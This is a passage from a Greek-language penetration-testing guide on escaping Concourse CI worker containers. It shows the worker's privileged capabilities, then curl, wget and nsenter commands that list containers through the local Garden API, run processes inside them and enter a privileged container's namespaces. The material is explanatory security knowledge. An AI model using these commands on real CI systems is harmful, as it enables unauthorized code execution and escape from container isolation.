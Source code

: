 Οι concourse workers εκτελούνται με υψηλά προνόμια container:
```
Container Runtime: docker
Has Namespaces:
pid: true
user: false
AppArmor Profile: kernel
Capabilities:
BOUNDING -> chown dac_override dac_read_search fowner fsetid kill setgid setuid setpcap linux_immutable net_bind_service net_broadcast net_admin net_raw ipc_lock ipc_owner sys_module sys_rawio sys_chroot sys_ptrace sys_pacct sys_admin sys_boot sys_nice sys_resource sys_time sys_tty_config mknod lease audit_write audit_control setfcap mac_override mac_admin syslog wake_alarm block_suspend audit_read
Seccomp: disabled
```
Ωστόσο, τεχνικές όπως η **προσάρτηση** της συσκευής /dev του κόμβου ή το release\_agent **δεν θα λειτουργήσουν** (καθώς η πραγματική συσκευή με το σύστημα αρχείων του κόμβου δεν είναι προσβάσιμη, μόνο μια εικονική). Δεν μπορούμε να έχουμε πρόσβαση στις διεργασίες του κόμβου, οπότε η διαφυγή από τον κόμβο χωρίς kernel exploits γίνεται περίπλοκη.

{% hint style="info" %}
Στην προηγούμενη ενότητα είδαμε πώς να διαφύγουμε από ένα προνομιούχο container, οπότε αν μπορούμε να **εκτελέσουμε** εντολές σε έναν **προνομιούχο container** που δημιουργήθηκε από τον **τρέχοντα** **εργάτη**, θα μπορούσαμε να **διαφύγουμε στον κόμβο**.
{% endhint %}

Σημειώστε ότι παίζοντας με το concourse παρατήρησα ότι όταν δημιουργείται ένα νέο container για να τρέξει κάτι, οι διεργασίες του container είναι προσβάσιμες από τον container του εργάτη, οπότε είναι σαν ένας container να δημιουργεί έναν νέο container μέσα του.

**Είσοδος σε έναν τρέχοντα προνομιούχο container**
```bash
# Get current container
curl 127.0.0.1:7777/containers
{"Handles":["ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

# Get container info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/properties

# Execute a new process inside a container
## In this case "sleep 20000" will be executed in the container with handler ac793559-7f53-4efc-6591-0171a0391e53
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'

# OR instead of doing all of that, you could just get into the ns of the process of the privileged container
nsenter --target 76011 --mount --uts --ipc --net --pid -- sh
```
**Δημιουργία ενός νέου προνομιούχου container**
